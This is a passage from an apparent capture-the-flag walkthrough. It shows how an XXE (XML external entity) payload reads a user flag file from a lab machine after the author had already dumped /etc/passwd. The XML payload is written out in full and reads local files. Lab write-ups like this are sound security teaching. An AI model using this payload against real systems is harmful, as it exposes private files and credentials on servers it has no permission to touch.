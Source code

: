 <img src="xxe-etcpasswd.jpg" width=500px>

Now let's see what other files we can discover!

### OWNING USER

Can we make an educated guess and assume our user flag is at
`/home/roosa/user.txt`? (we've seen the user `roosa` referenced earlier and
we've also seen it in the `/etc/passwd` dump).

Modifying our hello world to dump that file instead..

```
$ cat hello4.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/roosa/user.txt" >]>
<xml>
  <msg>hello world</msg>
  <Author>hello author &xxe;</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```

<img src="xxe-usertxt.jpg" width=500px>
